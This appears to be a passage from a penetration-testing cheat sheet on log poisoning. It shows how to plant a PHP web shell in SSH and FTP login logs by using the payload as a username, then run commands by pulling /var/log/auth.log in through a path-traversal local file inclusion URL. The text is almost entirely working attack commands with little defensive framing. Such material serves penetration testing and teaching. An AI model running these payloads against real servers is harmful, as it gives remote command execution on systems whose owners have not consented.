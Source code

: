 <figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

### SSH Login Log Poisoning

**Step 1:** Connect to the server via SSH and input malicious PHP code as the username or password. For example:

```bash
ssh  '<?php system($_GET["cmd"]); ?>'@target.com
```



go to the auth.log file or secure

{% code overflow="wrap" %}
```bash
http://vulnerable-website.com/index.php?page=../../../../var/log/auth.log&cmd=id
```
{% endcode %}

### **LFI via FTP Login Log Poisoning**

step1; connect to the FTP

```bash
ftp target.com
Name: <?php system($_GET["cmd"]); ?>
```

The login will fail, but the attempt is logged in the FTP log files (e.g., `/var/log/vsftpd.log` or `/var/log/xferlog`).
